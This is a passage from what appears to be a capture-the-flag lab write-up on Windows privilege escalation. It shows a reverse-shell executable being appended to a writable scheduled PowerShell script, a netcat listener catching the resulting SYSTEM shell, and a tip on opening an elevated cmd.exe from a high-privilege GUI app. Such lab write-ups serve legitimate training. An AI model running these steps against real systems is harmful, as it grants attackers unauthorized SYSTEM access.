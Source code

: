 ```
        READ_CONTROL

```

We have permission to append data to this file.

Let's append a call to our malicious reverse shell:

```
C:\Windows\system32>echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

After a while:

```bash
joshua@kaligra:~/Documents/thm/windows10privesc$ nc -nlvp 4444                  listening on [any] 4444 ...
connect to [10.8.100.14] from (UNKNOWN) [10.10.96.135] 49747
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```


## Insecure GUI apps

Some apps could run insecurely (with high privileges), eg.

```bash
tasklist /V | findstr mspaint.exe
tasklist /V | findstr mspaint.exe
mspaint.exe                   5096 RDP-Tcp#1                  2     29,140 K Unknown         WIN-QBA94KB3IOF\admin                                   0:00:00 N/A
```

this means that we can open `cmd.exe` with elevated privileges:

![](Pasted%20image%2020230731125743.png)

